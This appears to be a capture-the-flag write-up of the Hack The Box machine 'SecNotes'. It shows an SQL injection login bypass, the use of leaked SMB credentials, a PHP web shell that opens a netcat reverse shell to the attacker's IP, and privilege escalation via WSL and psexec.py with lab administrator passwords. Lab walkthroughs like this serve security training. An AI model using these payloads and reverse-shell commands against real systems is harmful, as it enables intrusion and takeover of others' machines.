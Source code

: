 ```yaml
---
description: https://app.hackthebox.com/machines/151
---
```


# 🎶 SecNotes

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

After the nmap scan, we see the web server is a login page:&#x20;

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

I try and create an account and log in->

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We get access to a dashboard and a possible username

let's try unlogging and abuse this web app with SQLis

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

when we connect with the credentials it fills in an error, good news

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We try with some more SQLi patterns and end up having database infos leaked within the dashboard :

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>'OR 1 OR'</p></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

We find what seems to be credentials for an SMB share?

Other than the manual exploitation we could use psexec:

```
psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.129.227.170
```

It did not work :

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

So let's go manually with passwd **92g!mA8BGjOirkL%OG\*&**

```
smbclient \\\\10.129.227.170\\new-site -U tyler
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

now create a file called 'shell.php'

```
<?php system('nc.exe -e cmd.exe 10.10.14.94 9898') ?>
```

and then copy on your root directory netcat:

```
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe nc.exe
```

and on the smb share of tyler:

```
put shell.php
put nc.exe
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Using the `put` command to upload a reverse shell and your netcat executable to an SMB share on the target system, you're creating a foothold on the target system. Even if your initial access is lost, you can regain access through the uploaded tools and i'll be able to call netcat and so trigger my reverse shell to obtain a shell ->

So now i need to trigger my shell.php file, after some looking around i found where were stored the files:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

So i simply request: [http://10.129.163.46:8808/shell.php](http://10.129.163.46:8808/shell.php)

and get a shell:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

and go and grab the flag:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

For the elevation let's dive into subsystems:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl" %}

first we saw that we needed to locate bash.exe, you can use a recursive search this way:

```
where /R c:\windows bash.exe
```

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

same for wsl.exe:

```
where /R c:\windows wsl.exe
```

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

quick explanation on why we're doing this:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

after trying to get a bash shell by triggering bash.exe, we get some useful infos:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

We are root but on a linux machine of secnotes, so not really what we are looking for

we are in a non tty, let's try to escape

for reminder, a non tty refers to a type of device or terminal that does not have interactive capabilities like a traditional teletypewriter or terminal.

Let's try to get a shell via a python import:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

* `python`: This invokes the Python interpreter.
* `-c`: This option allows you to pass a command directly to Python for execution.
* `"import pty; pty.spawn('/bin/bash')"`: This is the Python code that gets executed.
  * `import pty`: This imports the `pty` module, which provides functions for controlling pseudo-terminals.
  * `pty.spawn('/bin/bash')`: This line spawns a new interactive shell (`/bin/bash`). When this line is executed, it effectively starts a new shell session within the current terminal session. The `pty.spawn()` function creates a new pseudo-terminal and executes the specified command (`/bin/bash`) within it. This results in a fully interactive shell prompt, allowing the user to execute commands and interact with the system as if they were using a normal terminal.

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

{% embed url="https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell" %}

now let's look what we have in the root folder:&#x20;

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

after looking through stuff we encounter:&#x20;

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

that's a quick and easy win, let's try some other stuff

Impacket Toolkit - [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

first, let's install impacket

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.163.46
```

* `psexec.py`: This likely refers to a Python script named `psexec.py`. This script is likely designed to replicate the functionality of the original `PsExec` tool developed by Sysinternals, which allows for the execution of commands on remote Windows systems.
* `administrator:'u6!4ZwgwOM#^OBf#Nwnh'`: This part of the command specifies the username and password to authenticate to the target system. In this case, the username is `administrator` and the password appears to be `'u6!4ZwgwOM#^OBf#Nwnh'`. The password is enclosed in single quotes to ensure that special characters within it are properly interpreted.
* `@10.129.163.46`: This specifies the IP address or hostname of the target Windows system. The `psexec.py` script will attempt to connect to this system using the provided credentials and execute commands remotely.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

And just go and fetch the file

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

If A/V is blocking psexec, you can use smbexec or winexe

<figure><img src="../../../.gitbook/assets/image (614).png" alt=""><figcaption></figcaption></figure>
